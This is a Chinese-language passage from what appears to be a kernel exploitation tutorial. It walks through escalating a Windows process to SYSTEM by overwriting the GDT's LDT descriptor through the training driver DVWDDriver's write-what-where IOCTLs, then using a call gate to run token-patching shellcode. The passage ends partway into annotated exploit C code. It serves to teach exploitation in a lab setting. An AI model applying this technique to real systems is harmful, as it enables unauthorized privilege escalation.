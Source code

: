 4. Shellcoding
--------------

* * *

好了我们已经明白利用是如何工作的了.我们将重用在上一篇文章中使用过的shellcode(关于利用带有write-what-where弱点的HalDispatchTable).但是这里有一个问题..在我们的payload执行之后我们需要从Call-Gate返回.一个FAR CALL将会跳转到Call-Gate,也就是说EIP指向的段将会改变,因此在执行之后我们需要一个FAR RET(0xCB).通过这样做我们可以跳转到我们利用中的下一条指令. 无论如何,重点是记住在内核态而不是用户态中指向KPCR(内核处理程序控制区域)的FS段描述符（它指向TEB结构体(线程执行块)）.事实上：

• 在内核态中,FS=0x30 • 在用户态中,FS=0x3B

因此,在内核态中,在执行我们的shellcode之前,必须把FS设为0x30,然后在返回之后将其置为0x3B 前两个原因DVWDExploit的作者已经用ASM写了一个wrapper（ReturnFromGate）来实现那些操作.这是该wrapper的地址（必须被放置到Call-Gate描述符的偏移范围内）.

5.利用细节
------

* * *

好的,我们已经彻底理解这个利用的细节.这是它的工作流程:

1.  检索在内核态中被执行的payload地址(命名为KernelPayload),那表明是patch 当前进程的Access Token的代码
2.  检索_KPROCESS结构体的地址
3.  检索GDT中LDT描述符的地址（定位于_KPROCESS+偏移(0x20)）
4.  在ntdll.dll内使用ZwSetInformationProcess()系统调用创建一个新的LDT.该工作由称为SetLDTEnv()的函数完成.
5.  将KernelPayload的地址放到wrapper,ReturnFromGate将可以从它那里调用shellcode,然后将这个wrapper放入可执行内存.
6.  用称为PrepareCallGate32()的函数创建Call-Gate描述符.当然,为了在ring0到ring3之间执行代码,我们已经明白恰当填充Call-Gate区域的方法.
7.  可以用PrepareLDTDescriptor32()函数创建LDT描述符(对应上一个被创建的LDT)
8.  通过使用弱点，将之前创建的一个对应的伪造LDT覆盖GDT中的LDT描述符： • 利用DVWDDriver的IOCTL DEVICEIO_DVWD_STORE把新的LDT描述符存储进GlobalOverwriteStruct • 编写新的LDT描述符- 在GlobalOverwriteStruct中-位于GDT中的现存LDT描述符,谢谢 DVWDDriver的 IOCTL DEVICEIO_DVWD_OVERWRITE
9.  然后我们需要强制进行一个进程的上下文切换.事实上,GDT中的LDT段描述符仅在上下文切换后更新.为了达到目的我们仅需要休息一段时间.
10.  最后使我们的FAR CALL通向Call-Gate.那将触发wrapper的执行且在内核态中执行我们的shellcode
11.  从我们的shellcode返回时,正在运行的进程SID = NT AUTHORITY\SYSTEM,这时我们可以做任何我们想做的！ 一幅图或许可以帮助理解... =)

![enter image description here](http://drops.javaweb.org/uploads/images/53cbf29851d6ec767acdf9129ce0e562d06c4775.jpg)

6.利用代码
------

* * *

```
Here is a code snippet from DVWDExploit with many comments I've added. 
// ----------------------------------------------------------------------------
// Arbitrary Memory Overwrite exploitation ------------------------------------
// ---- Method using LDT  -----------------------------------------------------
// ----------------------------------------------------------------------------


typedef NTSTATUS (WINAPI *_ZwSetInformationProcess)(HANDLE ProcessHandle, 
                       PROCESS_INFORMATION_CLASS ProcessInformationClass,  
                       PPROCESS_LDT_INFORMATION ProcessInformation,
                       ULONG ProcessInformationLength);    

// Fill the Call-Gate Descriptor -------------------------------------------------
VOID PrepareCallGate32(PCALL_GATE32 pGate, PVOID Payload) {

 ULONG_PTR IPayload = (ULONG_PTR)Payload;

 RtlZeroMemory(pGate, sizeof(CALL_GATE32));

 pGate->Fields.OffsetHigh   = (IPayload & 0xFFFF0000) >> 16;
 pGate->Fields.OffsetLow    = (IPayload & 0x0000FFFF);
 pGate->Fields.Type     = 12;   // Gate Descriptor
 pGate->Fields.Param    = 0;
 pGate->Fields.Present    = 1;
 pGate->Fields.SegmentSelector  = 1 << 3;  // Kernel Code Segment Selector
```